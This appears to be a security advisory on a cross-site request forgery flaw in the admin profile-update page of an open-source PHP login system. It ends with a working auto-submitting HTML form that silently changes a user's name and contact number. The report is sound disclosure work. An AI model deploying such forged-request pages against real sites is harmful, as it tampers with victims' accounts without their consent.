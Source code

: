 # Vulnerability Report: CSRF in Profile Update


## Vulnerability ID: 2025-10-04 - CSRF-Profile-Update (High)


### Impact
Cross-Site Request Forgery (CSRF) vulnerabilities allow an attacker to perform unauthorized actions on behalf of an authenticated user without their consent. In this case, an attacker can change sensitive user profile details such as **first name, last name, and contact number**, potentially leading to impersonation, fraud, or account confusion.


### Likelihood
High — The profile update endpoint does not implement CSRF protection mechanisms such as anti-CSRF tokens, and there is no evidence of SameSite cookie restrictions or Referer/Origin validation. An attacker can craft a simple HTML page that triggers the update when visited by an authenticated user.


### Risk Level
**High** — Profile-tampering can be used for social-engineering, account takeover workflows, or to hide or disrupt user access.


### Found In
`https://localhost/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1`


### Vulnerability Description
Web applications must ensure that state-changing requests are intentionally initiated by their legitimate users. However, during the security review, it was found that the profile update endpoint (`edit-profile.php`) accepts POST requests that modify user profile details without validating an anti-CSRF token or checking the Origin/Referer headers. The server responds with a successful update message and redirects to the user management page. This lack of CSRF protection increases the attack surface and allows a remote attacker to force authenticated administrators or users visiting a malicious page to update profile data silently.


### Proof of Concept (PoC)
The following PoC demonstrates how an attacker can change the contact number to `1111111111`. Host this HTML and lure an authenticated user (admin) to visit it. The form auto-submits and updates the profile for `uid=1`.


**PoC HTML (also included in `poc/csrf_profile_update.html`):**


```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
<form action="https://192.168.31.97/User-Registration-and-login-System-with-admin-panel/loginsystem/admin/edit-profile.php?uid=1" method="POST">
<input type="hidden" name="fname" value="Rahul" />
<input type="hidden" name="lname" value="Kumarrr" />
<input type="hidden" name="contact" value="1111111111" />
<input type="hidden" name="update" value="" />
<input type="submit" value="Submit request" />
</form>
<script>
history.pushState('', '', '/');
document.forms[0].submit();
</script>
</body>
</html>
